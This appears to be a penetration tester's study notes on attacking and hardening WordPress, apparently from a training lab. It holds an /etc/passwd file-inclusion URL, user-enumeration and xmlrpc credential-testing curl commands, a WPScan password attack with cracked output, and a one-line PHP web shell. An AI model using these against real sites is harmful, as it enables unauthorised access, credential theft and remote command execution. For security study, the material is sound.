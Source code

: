 # Worpress Structure

- index.php is the homepage
- license.txt contains useful information such as the version Wordpress installed
- wp-activate.php is used for the email activation process
- wp-admin folder contains the login page for admin access and backend dashboard
- xmlrpc.php (not really relevant) XML encoding mechanism replaced by WordPress REST API
- wp-config.php contains information required by WordPress to connect ot the database

```php
<?php
/** <SNIP> */
/** The name of the database for WordPress */
define( 'DB_NAME', 'database_name_here' );

/\*_ MySQL database username _/
define( 'DB_USER', 'username_here' );

/\*_ MySQL database password _/
define( 'DB_PASSWORD', 'password_here' );

/\*_ MySQL hostname _/
define( 'DB_HOST', 'localhost' );

/\*_ Authentication Unique Keys and Salts _/
/_ <SNIP> _/
define( 'AUTH_KEY', 'put your unique phrase here' );
define( 'SECURE_AUTH_KEY', 'put your unique phrase here' );
define( 'LOGGED_IN_KEY', 'put your unique phrase here' );
define( 'NONCE_KEY', 'put your unique phrase here' );
define( 'AUTH_SALT', 'put your unique phrase here' );
define( 'SECURE_AUTH_SALT', 'put your unique phrase here' );
define( 'LOGGED_IN_SALT', 'put your unique phrase here' );
define( 'NONCE_SALT', 'put your unique phrase here' );

/\*_ WordPress Database Table prefix _/
$table*prefix = 'wp*';

/** For developers: WordPress debugging mode. \*/
/** <SNIP> \*/
define( 'WP_DEBUG', false );

/\*_ Absolute path to the WordPress directory. _/
if ( ! defined( 'ABSPATH' ) ) {
define( 'ABSPATH', **DIR** . '/' );
}

/\*_ Sets up WordPress vars and included files. _/
require_once ABSPATH . 'wp-settings.php';

```

- wp-content folder is the main directory where plugins and themes are stored
- wp-includes contains everything except for the administrative components and the 
themes. The directory contains core files such as fonts, js files and widgets

## Local File Exclusions
http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

## WordPress Core Version Enumeration

```sh
curl -s -X GET http://<url> |  grep '<meta name="generator"'
```

## User Enumeration

User exists

```sh
curl -s -I -X GET http://<url>/?author=1

HTTP/1.1 301 Moved Permanently
Date: Wed, 13 May 2020 20:47:08 GMT
Server: Apache/2.4.29 (Ubuntu)
X-Redirect-By: WordPress
Location: http://<url>/index.php/author/admin/
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

JSON Method on Wordpress < 4.7.1

```sh
curl http://<url>/wp-json/wp/v2/users | jq
```

### Login

This attack can be performed via the login page or the `xmlrpc.php` page

```sh
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php
```

`Invalid Credentials - 403 Forbidden`

### xmlrpc.php Attacks

```php
curl -X POST -d "<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>"
```

## Using WPScan

Get api token from https://wpscan.com/

```sh
wpscan --url <url> --enumerate --api-token <token>
```

### Password attack

```sh
wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com

[+] URL: http://blog.inlanefreight.com/
[+] Started: Thu Apr  9 13:37:36 2020
[+] Performing password attack on Xmlrpc against 3 user/s

[SUCCESS] - admin / sunshine1
Trying david / Spring2016 Time: 00:00:01 <============> (474 / 474) 100.00% Time: 00:00:01

[i] Valid Combinations Found:
 | Username: admin, Password: sunshine1
```

## Basic PHP Shell

```php
<?php
system($_GET['cmd']);
?>
```

## WordPress Hardening

- Perform Regular Updates, in `wp-config.php` we can automate this
  - define( 'WP_AUTO_UPDATE_CORE', true );
  - add_filter( 'auto_update_plugin', '\_\_return_true' );
  - add_filter( 'auto_update_theme', '\_\_return_true' );
- Only install trusted themes and plugins from the WordPress.org website
  - Checks its reviews, last update
- Enhance Security
  - https://wordpress.org/plugins/sucuri-scanner/
  - https://wordpress.org/plugins/better-wp-security/
  - https://wordpress.org/plugins/wordfence/
- Disable standard admin user and create accounts with difficult to guess usernames
  - Enforce Strong passwords
  - 2FA
  - Restricts users access
- Certain configuration changes can increase the overall security posture of a WordPress installation.
  - Limit login attempts
  - Rename the `wp-admin.php` login page or relocate it to make it either not accessible to the internet or only accessible by certain IP addresses
  - Install a plugin that disallows user enumeration so an attacker cannot gather valid usernames to be used in a password spraying attack
